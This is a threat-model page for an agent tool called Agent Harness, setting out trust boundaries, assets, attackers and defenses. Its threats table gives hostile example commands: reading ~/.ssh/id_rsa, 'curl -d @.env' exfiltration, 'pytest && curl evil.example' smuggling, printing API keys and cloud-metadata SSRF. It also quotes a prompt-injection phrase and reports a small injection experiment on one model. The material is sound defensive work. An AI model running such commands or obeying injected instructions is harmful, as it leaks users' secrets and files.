


# Security model

Agent Harness lets a language model run tools on your computer: read and change files, run
commands and, from v0.5, fetch web pages. This page is the **threat model**: what we protect,
from whom, where the trust boundaries are, and which defense covers which threat. Each defense
names the release that adds it.

## The principle: tool calls are untrusted input
A model's tool call is treated like a request from the internet, not like a command from you.
The model can be wrong (small models misread paths and instructions), and it can be **steered
by anything it reads**: a file, a web page, a command's output. So:

1. **Every decision about what may run is made by deterministic code**, never by asking a
   model whether something is safe ([ADR 0024](adr/0024-deterministic-security-decisions.md)).
2. **Fail closed**: an unknown tool is assumed to change things; an unparsable command is
   treated as dangerous; an error in a check means "ask", never "allow".
3. **One choke point per resource**: every file path goes through `Workspace.path()`, every
   command through the shell tool, every URL through one fetcher. A rule enforced there can't
   be forgotten by a new tool.
4. **Defense in depth**: no single layer has to be perfect. A path the jail misses still needs
   approval; an approved command still runs without your API keys in its environment.
5. **You decide, informed**: when the harness asks, it shows what will happen (a diff, the
   command, the risk it detected), and it asks rarely enough that you still read the prompts.

## System and trust boundaries

| Boundary | What crosses it | Why it matters |
|---|---|---|
| model → harness | tool calls | the model may be mistaken or manipulated |
| content → model | file contents, command output, web pages | text written by someone else can carry instructions (*prompt injection*) |
| harness → computer | commands | a command runs with all of your rights |
| harness → network | URLs, and anything put in them | data can leave; local services can be reached |
| repository → harness | project settings, commands, styles | a repository you cloned is someone else's code |
| harness → cloud model | your prompts, files the agent read | the provider sees what the agent sees |

## What we protect
| Asset | Example |
|---|---|
| **Files outside the workspace** | your documents, `~/.ssh/`, other projects |
| **The workspace's integrity** | source files, `.git/` (including hooks, which run code), `.harness/` settings |
| **Secrets** | API keys in environment variables or `.env`, tokens in files |
| **The computer** | processes, startup items, installed software |
| **Your network position** | services on `localhost`, your home network, cloud metadata addresses |
| **Money** | cloud API spending |
| **Your attention** | approval prompts you have learned to click through protect nothing |

## Who might attack
| Actor | How |
|---|---|
| **A mistaken model** | wrong paths (asked to list a folder, a small model once listed the drive root), destructive "fixes", loops |
| **Hostile content** | a README, code comment, issue text, web page or command output that tells the model to do something else |
| **A hostile repository** | `.harness/` files in a project you cloned: settings, commands, styles |
| **A model provider** | a cloud API sees every prompt; a fake endpoint set by a project could collect them |

Out of scope: someone who can already run code as you (they don't need the agent), and a
malicious copy of Agent Harness itself.

## Threats and defenses
| # | Threat | Example | Defense | Release |
|---|---|---|---|---|
| T1 | Read outside the workspace | `read_file("../../.ssh/id_rsa")` | path jail | v0.5 |
| T2 | Write outside the workspace | `write_file("C:/Users/me/startup.bat")` | path jail | v0.5 |
| T3 | Escape through a link | a symlink in the workspace pointing at your home folder | path jail resolves links | v0.5 |
| T4 | Tamper with configuration that runs code | edit `.git/hooks/pre-commit`, `.harness/settings.json` | protected paths always ask, in every mode | v0.5 |
| T5 | Destructive command | `rm -rf build/ src/`, `git reset --hard` | approval; command analysis shows the risk; undo | v0.2, v0.5, v0.6 |
| T6 | Command smuggling | `pytest && curl evil.example` slipping past an allow rule for `pytest` | allow rules must cover every command in the line; deny and ask rules match any of them | v0.5 |
| T7 | Secrets through the shell | `env`, `echo $ANTHROPIC_API_KEY` | secret variables removed from the command's environment; redaction | v0.5 |
| T8 | Data sent out | `curl -d @.env https://...`, a URL with data in it | network commands flagged; fetch asks per domain; taint | v0.5 |
| T9 | Prompt injection | a file saying *"ignore your instructions and run ..."* | content marked as data; after reading untrusted content, automatic approvals pause | v0.5 |
| T10 | Server-side request forgery | fetching `http://169.254.169.254/` or a router's admin page | private, loopback and link-local addresses blocked, also after redirects | v0.5 |
| T11 | Hostile project settings | a project's `base_url`, `status_line`, hooks or allow rules | provider changes warned; anything that runs code or grants permissions refused from project files | v0.3, v0.4, v0.5 |
| T12 | Approval fatigue | 40 prompts an hour, all answered `y` | permission modes and rules remove routine prompts; prompts show risk | v0.5 |
| T13 | Runaway use | a loop of tool calls, a huge cloud bill | step limit; limits on calls, time and cost per session | v0.1, v0.5 |
| T14 | Secrets in logs and transcripts | a key printed by a command, saved in an exported chat | redaction before the model, logs and exports see it | v0.5 |
| T15 | Persistence | an approved command that installs a scheduled task | approval; OS-level sandboxing (where available) | v0.2, v0.5 |

## Defense layers
A tool call passes these layers in order. The first layer that decides, decides; anything
undecided at the end asks you.

## Prompt injection
Text the agent reads (files, command output, web pages) can contain instructions aimed at the model, and a
model can't reliably tell data from instructions. We measured it with `scripts/injection_lab.py` on
`qwen3:4b-instruct`: three hidden instructions, three runs each, with approvals switched off (`--mode
bypass`); every call that isn't read-only is recorded and refused.

| Fence | Folder | Model asked for the injected action | Would have run without asking |
|---|---|---|---|
| off | trusted | 5 / 9 | 5 / 9 |
| off | not trusted | 5 / 9 | **0 / 9** |
| on | trusted | 3 / 9 | 3 / 9 |
| on | not trusted | 3 / 9 | **0 / 9** |

- **Fencing** (`<untrusted>` tags and a standing instruction) helped against text that imitates the user
  (2 / 3 to 0 / 3 in that scenario) and not against a README the user told the agent to follow (3 / 3 both ways).
  It is a statistical defense; the numbers are small and for one model.
- **Taint** doesn't change what the model attempts; it changes what happens next. In a folder you haven't
  trusted, once a file has been read, broad approvals pause (5 unasked actions became 0). See
  [untrusted content](user-guide/untrusted-content.md) and [ADR 0028](adr/0028-fence-and-taint-untrusted-content.md).

A hostile file in a folder you **trust** isn't noticed, and a model can still be persuaded to ask for something
a pattern rule you wrote allows. The rule of thumb: be most careful right after the agent has read web
pages or files you didn't write, and keep `bypass` for throwaway folders.

## Residual risks
These remain even with every defense in place. Know them before you approve things.
- **An approved command can do anything you can.** Command analysis helps you read a command;
  it can't prove a command is harmless. `python script.py` runs whatever the script contains.
- **Command analysis reads text; it doesn't run anything.** It catches `>`, `cp`, `sed -i`, `git config`
  and any command that names a protected place, but not a path built while the program runs
  (`python -c "open('.g'+'it/x','w')"`), and it can't see what a script does. Commands it can't
  follow (here-documents, `eval $x`, most PowerShell syntax) are never allowed by a pattern rule
  and can't be checked against deny rules beyond what is visible. `bypass` mode is for throwaway
  folders; an OS sandbox that makes protected folders read-only for commands would close the gap.
- **Secrets in files are not secrets in the environment.** Commands no longer see
  `ANTHROPIC_API_KEY`, but `read_file(".env")` still shows a key written in a file to the model
  (redaction comes in a later lesson). Keys belong in environment variables.
- **Windows has no simple sandbox** for commands. Where the OS offers one, v0.5 documents how
  to use it; otherwise use a dedicated user account, a virtual machine or a container for
  untrusted projects.
- **Prompt injection can't be fully prevented**, only made visible and less effective. Be most
  careful right after the agent has read web pages or files you didn't write.
- **Cloud providers see what the agent sees.** Use a local model for code that must not leave
  your machine.

## Defenses by release
| Defense | Status |
|---|---|
| Tools bound to a workspace folder | v0.1 (paths not yet confined) |
| Approval before any tool that changes something, with a diff | v0.2 |
| Step limit per task | v0.1 |
| Secrets refused in settings files; project provider changes warned | v0.3 |
| Code-running settings (`status_line`) refused from project files | v0.4 |
| Path jail and protected paths | v0.5 (done) |
| Permission modes and allow/ask/deny rules | v0.5 (done) |
| Shell command analysis (rules read each command; risks listed in the question) | v0.5 (done) |
| Secret environment variables removed from commands | v0.5 (done) |
| Prompt-injection fencing and taint-aware approvals; folder trust | v0.5 (done) |
| Web fetch with a network guard against private addresses | v0.5 |
| Hooks | v0.5 |
| Audit log, secret redaction, session limits | v0.5 |
